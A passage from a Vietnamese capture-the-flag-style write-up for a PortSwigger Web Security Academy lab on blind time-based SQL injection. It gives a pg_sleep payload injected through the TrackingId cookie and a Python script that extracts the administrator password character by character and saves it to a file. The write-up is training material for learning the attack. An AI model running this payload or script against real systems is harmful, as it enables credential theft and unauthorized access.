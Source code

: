 Payload đã hoạt động. Tuy nhiên sau khi brute-force thử bằng `Intruder` thì mình nhận ra nếu gửi nhiều request cùng lúc sẽ dẫn đến thời gian các response đều lâu gần như nhau. Do đó ta có thể dùng `Intruder` và cài đặt `Maximum concurrent requests` là `1` với payload

`'%3b SELECT CASE WHEN ((select substring(password,§pos§,1) from users where username = 'administrator') = '§char§') THEN pg_sleep(10) ELSE pg_sleep(0) END --`

![Untitled](writeup-media/Untitled%2057.png)

hoặc code python để giải (module `bruteforce`  được đính kèm cùng trong folder write up)

```python
import re

import requests
import bruteforce as bf

URL = 'https://ace01f5c1e98f62ec0e368c5001e0079.web-security-academy.net/login'

status_code = requests.get(url=URL).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

bf_char = bf.ALLOWED_CHARACTERS[0]
pos = 1
username = 'administrator'
password = ''
while bf_char != bf.ALLOWED_CHARACTERS[-1]:
    cookie = {
        'TrackingId': f"'%3b SELECT CASE WHEN ((select substring(password,{pos},1) from users where username = '{username}') = '{bf_char}') THEN pg_sleep(15) ELSE pg_sleep(0) END -- "
    }
    res = requests.get(url=URL, cookies=cookie)

    print(f'{bf_char} - ', end='')

    if res.elapsed.total_seconds() > 14:
        print(f'password: {bf_char}')
        password += bf_char
        pos += 1
        bf_char = bf.ALLOWED_CHARACTERS[0]
    else:
        bf_char = bf.func_next_char(bf_char)

print(password)
with open('credential.txt', 'w') as file:
    file.write(f'{username}:{password}')

s = requests.session()
csrf = re.search(r'<input required type="hidden" name="csrf" value="(.*)">', s.get(url=URL).text).group(1)

data = {
    'csrf': csrf,
```